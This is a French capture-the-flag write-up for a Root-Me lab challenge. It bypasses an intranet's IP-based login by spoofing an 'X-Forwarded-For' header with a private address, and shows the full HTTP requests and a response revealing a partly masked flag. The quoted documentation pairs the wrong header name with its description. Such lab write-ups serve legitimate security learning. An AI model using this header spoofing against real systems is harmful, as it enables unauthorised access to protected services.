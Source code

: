 # HTTP - Contournement de filtrage IP

## Enoncé

```
Chers collègues,

Nous avons réussi à gérer les connexions à l’intranet via les adresses IP privées, il ne sera donc plus nécessaire de vous identifier par compte / mot de passe quand vous serez déjà connecté au réseau interne de l’entreprise.

Cordialement,

L’administrateur réseau
```

## Procédure

1. Analyse 

J'arrive sur une page de login + password pour un intranet et les messages suivants : 

```
Your IP 2a01:XXXXXXXXXXXXX:5611 do not belong to the LAN.
You should authenticate because you're not on the LAN.
```

2. Envoie d'une requête et analyse du header

```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

login=jesuislogin&mdp=jesuispassword
```

3. Contournement du filtrage IP 

Afin de se faire passer pour un utilisateur local il suffit de rajouter dans le header de la requête une information indiquant qu'on utilise une IP locale comme ```192.168.1.1, 192.168.1.2, 10.0.0.1, 10.0.0.2```

Après une recherche dans la documentation https://developer.mozilla.org/, j'apperçoit : 

```
X-Forwarded-Host
Identifie le protocole (HTTP ou HTTPS) utilisé par le client pour se connecter à l'intermédiaire (proxy ou un load balancer).

Examples:
X-Forwarded-For: 2001:db8:85a3:8d3:1319:8a2e:370:7348

X-Forwarded-For: 203.0.113.195

X-Forwarded-For: 203.0.113.195, 2001:db8:85a3:8d3:1319:8a2e:370:7348

X-Forwarded-For: 203.0.113.195,2001:db8:85a3:8d3:1319:8a2e:370:7348,198.51.100.178
```

Nouveau header : 

```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
X-Forwarded-For: 192.168.1.1

login=&mdp=
```

Réponse : 

```
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 06 Jan 2024 12:02:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 391

<!DOCTYPE html>
<html>
<head>
	<title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
			<h1>Intranet</h1>
		<div>
			Well done, the validation password is: <strong>IXXXXXXXXng
</strong>
		</div>
	</body>
</html>
```
